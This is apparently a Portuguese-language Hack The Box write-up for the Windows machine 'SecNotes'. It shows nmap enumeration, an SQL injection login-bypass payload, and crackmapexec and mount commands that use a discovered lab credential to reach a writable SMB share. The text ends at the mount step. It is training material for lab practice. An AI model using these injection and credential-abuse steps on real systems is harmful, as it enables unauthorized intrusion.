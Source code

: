 ```yaml
---
title:     "Hack The Box - SecNotes"
tags: [windows,medium]
categories: HackTheBox
---
```


![1337.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/1337.jpg)


## Enumeration

Usando o autorecon podemos agilizar o processo

```
# Nmap 7.80 scan initiated Tue Jul 14 12:52:55 2020 as: nmap -vv --reason -Pn -A --osscan-guess --version-all -p- -oN /root/HTB-Windows/secnotes/results/10.10.10.97/scans/_full_tcp_nmap.txt -oX /root/HTB-Windows/secnotes/results/10.10.10.97/scans/xml/_full_tcp_nmap.xml 10.10.10.97
Nmap scan report for 10.10.10.97
Host is up, received user-set (0.40s latency).
Scanned at 2020-07-14 12:52:59 EDT for 920s
Not shown: 65532 filtered ports
Reason: 65532 no-responses
PORT     STATE SERVICE      REASON          VERSION
80/tcp   open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp  open  microsoft-ds syn-ack ttl 127 Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.80%E=4%D=7/14%OT=80%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=5F0DE683%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=109%TI=RD%II=I%TS=U)
SEQ(SP=106%GCD=1%ISR=109%TI=RD%TS=U)
OPS(O1=M54DNW8NNS%O2=M54DNW8NNS%O3=M54DNW8%O4=M54DNW8NNS%O5=M54DNW8NNS%O6=M54DNNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M54DNW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Randomized
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h19m52s, deviation: 4h02m33s, median: -10s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 25086/tcp): CLEAN (Timeout)
|   Check 2 (port 9222/tcp): CLEAN (Timeout)
|   Check 3 (port 53444/udp): CLEAN (Timeout)
|   Check 4 (port 51444/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2020-07-14T10:07:36-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-14T17:07:30
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   366.33 ms 10.10.14.1
2   385.27 ms 10.10.10.97

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 14 13:08:19 2020 -- 1 IP address (1 host up) scanned in 925.90 seconds
```

Temos entao, 3 portas abertas `80 445 8808`

Navegando ate a porta 80 temos uma tela de login

![22.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/22.jpg)

na port 8808 temos um IIS 10 

![33.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/33.jpg)

Comeco entao pela porta 80, criei um user mas nada de interessante.. Entao resolvi tentar tecnicas de SQLI para bypass de auth

***reference***  https://github.com/payloadbox/sql-injection-payload-list

Usando a primeiro payload encontrado na aba `SQL Injection Auth Bypass Payloads` 

```
login: '-' password: 123456
```

Consigo acesso a informacoes com um nivel mais elevado e uma das notas encontro um login 

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/2.jpg)

com essa cred tento entao acesso ao SMB usando crackmapexec 

```
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

`crackmapexec smb 10.10.10.97 -u 'tyler' -p '92g!mA8BGjOirkL%OG*&' --shares`

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/3.jpg)

Conseguimos mais algumas informacoes importantes como a versao do windows e um share com permissao de escrite e leitura

Em seguida monto entao esse share no meu kali

***reference*** https://book.hacktricks.xyz/pentesting/pentesting-smb

`mount -t cifs -o username=tyler,password='92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site /mnt/new-site`

![5.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/5.jpg)






